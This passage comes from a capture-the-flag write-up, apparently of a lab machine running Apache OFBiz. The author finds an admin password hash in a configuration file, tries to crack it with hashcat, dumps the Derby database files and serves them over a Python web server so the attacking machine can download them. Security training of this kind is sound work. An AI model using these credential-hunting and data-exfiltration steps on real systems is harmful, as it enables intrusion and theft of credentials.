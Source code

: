 Eventually, I found the `AdminLoginUserData.xml` file with a promising hash for the admin:

```
/opt/ofbiz/framework/resources/templates$ cat AdminUserLoginData.xml    
<?xml version="1.0" encoding="UTF-8"?>
<!--
Licensed to the Apache Software Foundation (ASF) under one
or more contributor license agreements.  See the NOTICE file
distributed with this work for additional information
regarding copyright ownership.  The ASF licenses this file
to you under the Apache License, Version 2.0 (the
"License"); you may not use this file except in compliance
with the License.  You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing,
software distributed under the License is distributed on an
"AS IS" BASIS, WITHOUT WARRANTIES OR CONDITIONS OF ANY
KIND, either express or implied.  See the License for the
specific language governing permissions and limitations
under the License.
-->

<entity-engine-xml>
    <UserLogin userLoginId="@userLoginId@" currentPassword="{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a" requirePasswordChan
ge="Y"/>
    <UserLoginSecurityGroup groupId="SUPER" userLoginId="@userLoginId@" fromDate="2001-01-01 12:00:00.0"/>

```

I saved the hash to a file called `hash.txt` to use `hashcat` to crack the password. Unable to crack it, I researched other ways to crack the hash and determine if it was salted or not. With no luck, I was eager for yet another hint.

To proceed I needed to do more research on the different technologies that are identified via the names of directories. I finally come across Derby, but what is that?

* **Apache Derby** is an open-source database management system (RDBMS) that is implemented in Java

Databases are always interesting as they hold sensitive information. So, I enumerate sensitive information from the `.dat` files within the derby directory by copying all `.dat` files into a `.txt` :

```
cat /opt/ofbiz/runtime/data/derby/ofbiz/seg0/* > dat_files.txt
```

I need to get the `dat_files.txt` onto the local machine by setting a simple web server on rhost:

```
ofbiz@bizness:~$ python3 -m http.server 8484
python3 -m http.server 8484
Serving HTTP on 0.0.0.0 port 8484 (http://0.0.0.0:8484/) ...
10.10.14.83 - - [28/Feb/2024 17:15:17] "GET /dat_files.txt HTTP/1.1" 200 -
```
